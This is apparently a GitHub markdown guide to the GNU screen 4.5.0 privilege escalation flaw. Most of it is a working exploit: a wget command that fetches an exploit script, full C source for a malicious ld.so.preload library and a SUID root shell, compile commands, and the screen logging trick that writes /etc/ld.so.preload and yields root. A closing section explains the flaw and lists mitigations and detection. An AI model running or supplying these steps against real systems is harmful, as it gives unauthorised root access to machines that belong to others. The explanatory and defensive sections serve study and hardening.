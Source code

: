 ### Check [screen](https://linux.die.net/man/1/screen) version
```bash
screen -v
```

### Download the exploit script (if you don't have it)
```bash
wget https://raw.githubusercontent.com/infernusinvictus/linux-exploit-suggestions/master/screen-4.5.0/screen_exploit.sh # or the location of your exploit.
```

### Make the script executable
```bash
chmod +x screen_exploit.sh
```

### Run the exploit (replace ~ with the target user's home directory)
```bash
./screen_exploit.sh ~ gnu/screenroot ~
```

### If the script doesn't work directly, try the commands manually:

#### 1. Create libhax.c
```bash
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>

__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

#### 2. Compile libhax.c
```bash
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

#### 3. Create rootshell.c
```bash
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
#include <unistd.h>

int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

#### 4. Compile rootshell.c
```bash
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
```

#### 5. Create /etc/ld.so.preload
```bash
cd /etc
umask 000 # Very important!
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so" # Newline is crucial
```

#### 6. Trigger the exploit
```bash
screen -ls
```

#### 7. Execute the root shell
```bash
/tmp/rootshell
```

### Cleanup (always a good idea)
```bash
rm /tmp/libhax.so
rm /tmp/rootshell
rm /etc/ld.so.preload # Sometimes the exploit does not remove it.
```

## **Vulnerability:**

- **Version 4.5.0 and below:** The `screen` utility in these versions lacks proper permission checks when creating or truncating log files.
- **Arbitrary File Write:** This allows an attacker to write to or create files with root privileges, leading to privilege escalation.
- **`ld.so.preload` Abuse:** The exploit leverages this vulnerability to manipulate the `ld.so.preload` file, which specifies shared libraries to load before others. By pointing it to a malicious library, arbitrary code can be executed with root privileges.

### **Exploitation Steps (as shown in the script):**

1. **Create Malicious Library (`libhax.so`):**
    - A C library is created that, upon loading, changes the ownership and permissions of a shell executable (`/tmp/rootshell`) to root and sets the SUID bit.
    - It also removes the `ld.so.preload` file to clean up.
2. **Create Root Shell (`rootshell`):**
    - A simple C program is created that spawns a root shell using `setuid(0)` and related functions.
3. **Create `ld.so.preload`:**
    - The script uses `screen`'s logging feature to write the path to the malicious library (`/tmp/libhax.so`) into `/etc/ld.so.preload`. The `umask 000` is very important, as it ensures that the file is created with the needed permissions.
4. **Trigger the Vulnerability:**
    - Running `screen -ls` triggers the vulnerability. Because screen is a SUID binary, when it runs, it loads the `ld.so.preload` library, and the code within the library executes.
5. **Root Shell:**
    - The malicious library changes the permissions of `/tmp/rootshell`, and the script then executes it, providing a root shell.

### **Key Points and Considerations:**

- **SUID Binaries:** The exploit relies on `screen` being a SUID binary. This is a common requirement for many privilege escalation exploits.
- **`ld.so.preload`:** Understanding how `ld.so.preload` works is crucial for understanding this exploit. It is a powerful but dangerous feature.
- **Clean Up:** The exploit includes steps to clean up after itself, such as removing the malicious library and `ld.so.preload`. This is good practice but not always guaranteed.
- **Mitigation:**
    - **Update `screen`:** The primary mitigation is to update to a patched version of `screen`.
    - **Remove SUID bit:** If updating is not possible, removing the SUID bit from `screen` will prevent this exploit, but it may break functionality.
    - **File System Permissions:** Proper file system permissions can help prevent unauthorized modification of critical system files.
- **Real-World Scenarios:** This exploit is a good example of how seemingly minor vulnerabilities can lead to significant security breaches.
- **Exploit variations:** There are slight variations of this exploit. For example, instead of removing the preload file, the malicious library may replace its content with a blank line.
- **Detection:** This type of exploit can be detected by monitoring changes to `/etc/ld.so.preload` and by detecting suspicious SUID binaries. Monitoring for unexpected root shells is also important.
- **Containerization:** In containerized environments, this vulnerability may be less impactful, as the container's root user is typically isolated from the host's root user. However, container escape vulnerabilities can still occur.

